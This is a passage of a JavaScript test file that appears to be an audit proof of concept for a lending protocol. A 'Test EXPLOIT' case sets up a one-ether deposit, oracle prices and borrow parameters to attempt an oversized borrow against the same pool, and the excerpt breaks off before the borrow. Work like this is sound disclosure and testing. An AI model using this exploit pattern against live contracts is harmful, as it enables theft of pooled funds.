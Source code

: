 ```

    // deposit into eth pool
    const depositOneEther = await loanManager.connect(hub).deposit(loanId, accountId, pools.ETH.poolId, depositAmount);

    // NOW = [pools.ETH {balance = 0} , pools.ETH {balance = 0} , pools.ETH {balance = 0} , pools.ETH {balance = 0} , pools.ETH {balance = 0} , pools.ETH {balance = 1e18}]

    return {
      admin,
      hub,
      user,
      unusedUsers,
      loanManager,
      loanManagerAddress,
      oracleManager,
      libraries,
      depositOneEther,
      loanTypeId,
      pools,
      loanId,
      accountId,
      depositAmount,
      depositFAmount,
    };
  }

  after(async () => {
    await reset();
  });

  describe("Test EXPLOIT", () => {
    it.only("Huge borrow for same pool deposit", async () => {
      const {
        admin,
        hub,
        user,
        unusedUsers,
        loanManager,
        loanManagerAddress,
        oracleManager,
        libraries,
        depositOneEther,
        loanTypeId,
        pools,
        loanId,
        accountId,
        depositAmount,
        depositFAmount,
      } = await loadFixture(depositeZeroTokenAmountIntoSamePOOlFixture);

      // set prices
      const ethNodeOutputData = getNodeOutputData(BigInt(3000e18));
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // prepare borrow
      const variableInterestIndex = BigInt(1.2e18); // No interest
      const stableInterestRate = BigInt(0);
      await pools.ETH.pool.setBorrowPoolParams({ variableInterestIndex, stableInterestRate });
      await pools.ETH.pool.setUpdatedVariableBorrowInterestIndex(variableInterestIndex);

      const borrowAmount = BigInt(3e18);
```